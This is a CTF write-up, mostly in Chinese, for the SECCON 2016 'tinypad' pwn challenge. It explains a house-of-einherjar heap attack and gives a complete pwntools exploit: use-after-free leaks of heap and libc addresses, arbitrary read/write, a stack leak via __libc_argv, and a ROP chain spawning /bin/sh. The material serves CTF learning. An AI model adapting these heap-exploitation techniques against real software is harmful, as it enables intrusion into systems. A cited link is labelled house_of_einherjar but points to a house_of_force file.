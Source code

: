 ```yaml
---
title: seccon 2016 tinypad
categories:
  - pwn
tags: house-of-einherjar
published: true
---
```


# Introduction

知识点：

[house_of_einherjar](https://github.com/shellphish/how2heap/blob/master/house_of_force.c)

**[tinypad](https://gist.github.com/hhc0null/4424a2a19a60c7f44e543e32190aaabf)**

tinypad: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter
/lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1333a912c440e714599a86192a918178f187d378, not stripped

{% highlight bash %}

    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

{% endhighlight %}

这题稍微有点不一样，got 表和 tls_dtor_list 都不能写，和只能写目标地址上字符串长度的数据。

# Exploit

利用程序的 uaf 获取堆地址和 libc 基址，分配 smallbin 大小的 chunk，释放掉其中两个。

```python
add("A"*0x90)
add("B"*0x90)
add("C"*0x90)
add("D"*0xf0)
delete(3)
delete(1)
```

使用 house of einherjar 技术控制 tinypad 变量，从而实现任意地址读写，看 writeup 学到泄露 `__libc_argv` 变量从
而泄露栈地址，然后构造 rop 调用 system("/bin/sh")。

[exp](https://github.com/0x3f97/pwn/blob/master/seccon-2016-tinypad/exp.py):

```python
#!/usr/bin/env python

from pwn import *

context.log_level = "debug"

elf = "./tinypad"

system_off = 0x45390
bin_sh_off = 0x18cd57
libc_argv_off = 0x3c92f8
pop_rdi_ret = 0x4013d3
pop_rsp_3pop_ret = 0x4013cd

p = process(elf)

def add(s):
    p.recvuntil("(CMD)>>> ")
    p.sendline("A")
    p.recvuntil("(SIZE)>>> ")
    p.sendline(str(len(s)))
    p.recvuntil("(CONTENT)>>> ")
    p.sendline(s)

def delete(idx):
    p.recvuntil("(CMD)>>> ")
    p.sendline("D")
    p.recvuntil("(INDEX)>>> ")
    p.sendline(str(idx))

def edit(idx, s):
    p.recvuntil("(CMD)>>> ")
    p.sendline("E")
    p.recvuntil("(INDEX)>>> ")
    p.sendline(str(idx))
    p.recvuntil("(CONTENT)>>> ")
    p.sendline(s)
    p.recvuntil("Is it OK?\n")
    p.recvuntil("(Y/n)>>> ")
    p.sendline("Y")


add("A"*0x90)
add("B"*0x90)
add("C"*0x90)
add("D"*0xf0)
delete(3)
delete(1)

p.recvuntil(" #   INDEX: 1\n")
p.recvuntil(" # CONTENT: ")
heap_base = u64(p.recv(4).strip().ljust(8, "\x00"))-0x140
p.recvuntil(" #   INDEX: 3\n")
p.recvuntil(" # CONTENT: ")
libc_base = u64(p.recv(6).strip().ljust(8, "\x00"))-0x3c4b78
log.info("heap_base: "+hex(heap_base))
log.info("libc_base: "+hex(libc_base))

system_addr = libc_base+system_off
bin_sh_addr = libc_base+bin_sh_off
libc_argv_addr = libc_base+libc_argv_off

offsize = (heap_base+0x1e0)-0x6020a0

payload = p8(0)*0x68
payload += p64(offsize, sign=True)
payload += p64(0x6020a0)*4
edit(2, payload)

payload = p8(0)*0x90
payload += p64(offsize, sign=True)
add(payload)

delete(4)

payload = p8(0)*0x90
payload += p64(8)+p64(libc_argv_addr)
payload += p64(8)+p64(0x602148)
add(payload)

p.recvuntil(" #   INDEX: 1\n")
p.recvuntil(" # CONTENT: ")
stack_addr = u64(p.recv(6).strip().ljust(8, "\x00"))-0xe0
log.info("stack_addr: "+hex(stack_addr))

# rop chain
edit(2, p64(stack_addr))
edit(1, p64(pop_rdi_ret))
edit(2, p64(stack_addr+0x4))
edit(1, p64(0))
edit(2, p64(stack_addr+0x5))
edit(1, p64(0))
edit(2, p64(stack_addr+0x8))
edit(1, p64(bin_sh_addr))
edit(2, p64(stack_addr+0x10))
edit(1, p64(system_addr))

p.sendline("Q")

p.interactive()
```
